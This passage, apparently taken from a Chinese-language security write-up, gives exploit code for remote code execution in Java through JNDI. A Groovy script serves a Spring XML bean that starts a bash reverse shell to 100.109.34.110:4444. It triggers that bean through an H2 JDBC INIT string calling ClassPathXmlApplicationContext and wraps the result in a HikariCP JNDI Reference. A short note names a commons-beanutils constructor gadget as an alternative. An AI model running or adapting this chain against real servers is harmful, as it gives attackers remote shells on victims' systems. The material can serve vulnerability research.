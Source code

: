 ```plain
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value><![CDATA[bash -i >& /dev/tcp/100.109.34.110/4444 0>&1]]></value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
'''

// host the xml on a web server
def server = WebServer.getInstance()
server.serveFile("/exp.xml", content.getBytes())

def xml_url = "http://$server.ip:$server.port/exp.xml"

// invoke URI.create() to create a URI object
list << "SET @uri=URI_CREATE('$xml_url')"
// invoke uri.toString() to transform the type of `xml_url` (from java.lang.String to java.lang.Object) to avoid H2 SQL convert error
// because the return type of INVOKE_METHOD is java.lang.Object
list << "SET @xml_url_obj=INVOKE_METHOD(@uri, 'toString', NULL)"
// instantiate ClassPathXmlApplicationContext
list << "SET @context_clazz=CLASS_FOR_NAME('org.springframework.context.support.ClassPathXmlApplicationContext')"
// the second parameter of INVOKE_CONSTRUCTOR requires java.lang.Object, so we use `xml_url_obj` instead of `xml_url`
list << "CALL INVOKE_CONSTRUCTOR(@context_clazz, @xml_url_obj)"

// use INIT property to execute multi SQL statements, and each statement must be separated by `\;`
def url = "jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=${list.join('\\;')}\\;"

def ref = new Reference("javax.sql.DataSource", "com.zaxxer.hikari.HikariJNDIFactory", null)
ref.add(new StringRefAddr("driverClassName", "org.h2.Driver"));
ref.add(new StringRefAddr("jdbcUrl", url));

return ref
```

ClassPathXmlApplicationContext 的利用思路很常见了，在 PostgreSQL JDBC RCE 和 ActiveMQ RCE 中都出现过

需要找到一个能够调用构造函数的静态方法，即通过 invokeConstructor 实例化 ClassPathXmlApplicationContext 加载 XML 实现 RCE

`org.apache.commons.beanutils.ConstructorUtils#invokeConstructor(java.lang.Class<T>, java.lang.Object)`
